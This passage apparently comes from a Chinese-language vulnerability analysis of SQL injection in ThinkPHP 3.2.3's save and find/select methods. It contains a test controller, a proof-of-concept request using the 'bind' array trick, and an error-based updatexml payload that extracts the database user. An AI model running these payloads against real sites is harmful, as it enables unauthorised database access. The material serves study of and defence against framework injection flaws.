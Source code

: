 但是 id 后面的 :1 是替换不掉的。

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1XPuSuV3JUKFlicxUyvqtn6ZxebHXzO3sthJDT6QNo2IsfsJfDDawvyw/640?wx_fmt=png)

那么我们将 id[1] 数组的参数变为 0 尝试一下。

###### 漏洞复现

测试代码

```
<?php
namespace HomeController;
use ThinkController;
class UserController extends Controller {
    public function index(){
        $User = M("member");
        $user['id'] = I('id');
        $data['money'] = I('money');
        $data['user'] = I('user');
        $valu = $User->where($user)->save($data);
        var_dump($valu);
    }
}
```

Poc：id[]=bind&id[]=0%27&money[]=1123&user=liao

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC14bDTrU674k5bIv1rR5J4xibvSCzjrGhI4vHWQoWT70A3brKRicEicSR2Q/640?wx_fmt=png)

这样就造成了注入。继续构造 poc。  
money[]=1123&user=liao&id[0]=bind&id[1]=0%20and%20(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1PKekmKtLxS1CB0ibVibrfagTPZ65T87Ikiaomic3r2SkRk75mGA9hOqpnw/640?wx_fmt=png)

##### ThinkPHP3.2.3 find 注入

###### select 和 find 函数

以 find 函数为例进行分析（select 代码类似），该函数可接受一个 $options 参数，作为查询数据的条件。

  
当 $options 为数字或者字符串类型的时候，直接指定当前查询表的主键作为查询字段：

```
if (is_numeric($options) || is_string($options)) {
            $where[$this->getPk()] = $options;
            $options               = array();
            $options['where']      = $where;
}
```

同时提供了对复合主键的查询，看到判断：

```
if (is_array($options) && (count($options) > 0) && is_array($pk)) {
            // 根据复合主键查询
            ......
        }
```
